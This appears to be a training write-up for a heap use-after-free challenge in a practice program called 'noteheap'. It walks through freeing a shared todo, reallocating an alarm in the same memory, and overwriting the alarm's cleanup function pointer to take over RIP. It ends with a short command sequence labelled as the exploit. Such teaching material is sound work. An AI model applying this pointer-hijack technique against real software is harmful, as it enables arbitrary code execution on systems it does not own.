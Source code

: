 # Heap use-after-free analysis

## Introduction

In this challenge, we will analyse a program where we can store "notes" and
retrieve them later. We will find a bug when deleting an object, and get a
"dangling pointer" where we can access other objects on the heap.

## Goal

* Understand how heap works
* Understand how use-after-free works
* Get our static and dynamic analysis skills to the next level

## Source

Execute `make` in the directory `~/challenges/challenge31`.


### Interface

The noteheap program understands the following commands:

```
> help
Noteheap:
Todo's:
  todo add <list> <prio> <todotext>
  todo edit <list>:<entry> <prio> <todotext>

List:
  todolist view <list>
  todolist add <listDst> <listSrc>:<entry>
  todolist del <list> <entry>

Alarm:
  alarm add <alarmText>
  alarm list
  alarm view <alarmIndex>
  alarm del <alarmIndex>
```


## Step by step

Start the `noteheap` program in gdb:

```
/root/challenges/challenge31 # gdb -q ./noteheap
Reading symbols from ./noteheap...(no debugging symbols found)...done.
(gdb) r
Starting program: /root/challenges/challenge31/noteheap
Welcome to noteheap v1.0
>
```


### Preparation

Lets add a new `todo` to to list `work` with priority 64:
```
> todo add work 64 test
Todo added to list work as nr 0 (prio 0x40, body: "test")
```

Now add this todo also to the list `private`:
```
> todolist add private work:0
Added todo from work:0 to private:0
```

This todo is not available in both lists:
```
> todolist view work
View List: work
  index: 0
    body: test
    prio: 0x40
    guid: 0x0
> todolist view private
View List: private
  index: 0
    body: test
    prio: 0x40
    guid: 0x0
```

Note that the `view` command displays the priority in hex, not in decimal.


### Bug

Ok, now lets delete the todo from the list `work`. Note that it doesnt matter
from which list we delete it, can also be `private`.

```
> todolist del work:0
Deleted entry 0 on list work

> todolist view work
View List: work

> todolist view private
View List: private
  index: 0
    body:
    prio: 0x40
    guid: 0x0
```

The todo entry still appears in the list `private`. Even though the body and guid
are missing, the prio (priority) is still intact.

The code to delete a todo entry (`listDel()`) is basically:
```
todo = global.todos[listIndex][listEntryIndex];
free(todo->body);
free(todo);
global.todos[listIndex][listEntryIndex] = NULL;
```

But lets add an alarm. The alarm object has the same size as the todo object.
Therefore it will be allocated on the same memory location as the todo object
we deleted (free'd) above:

```
> alarm add testalarm
Added alarm ("testalarm", 0)

> todolist view private
View List: private
  index: 0
    body: testalarm
    prio: 0x4008ed
    guid: 0x0
```

Remember the definitions of the todo and alarm objects:

```c
typedef struct {
	char *body;
	int priority;
	int id;
} Todo;

typedef struct {
	char *name;
	void (*cleanupFunction)();
	int id;
} Alarm;
```

After we allocated an alarm object, which appeared at the location of the deleted
todo object, the alarm object gets initialized:

```
void alarmAdd(char *alarmName) {
	Alarm *alarm;

	alarm = malloc(sizeof(Alarm));
	alarm->name = strdup(alarmName);
	alarm->cleanupFunction = &alarmCleanupFunction;
	alarm->id = global.alarmId++;

	global.alarms[alarmGetFreeEntryIndex()] = alarm;
}
```

Therefore when we look at the todo entry in the list private, the priority `prio`
is at the same memory location as the variable `cleanupFunction` in the alarm object.
We can conclude that the memory address of `alarmCleanupFunction` is `0x4008ed`.


### Arbitrary coode execution

Lets change the priority of the todo object:
```
> todo edit private:0 1094795585 BBBB
Todo private:1 modified (prio 0x41414141, body: "BBBB")

> todolist view private
View List: private
  index: 0
    body: BBBB
    prio: 0x41414141
    guid: 0x0
> alarm list
Alarm: 0
  Name: BBBB
  gid: 0x0
```

We set the priority to the value 0x41414141. This means that the `cleanupFunction`
is also set to this value.


If we look at the `alarmDel()` function, we see that this `cleanupFunction()` is
being called when we remove the alarm:

```c
void alarmDel(int alarmIndex) {
	Alarm *alarm;

	alarm = global.alarms[alarmIndex];
	global.alarms[alarmIndex] = NULL;

	free(alarm->name);
	alarm->cleanupFunction();
	free(alarm);
}
```

Lets try it:
```
> alarm del 0

Program received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()
(gdb)
```

Success! RIP is set to 0x41414141, as we intended.


## Exploit

```
todo add work 64 test
todolist add private work:0
todolist del work:0


alarm add testalarm
todo edit private:0 456 "AA"
alarm del 0
```
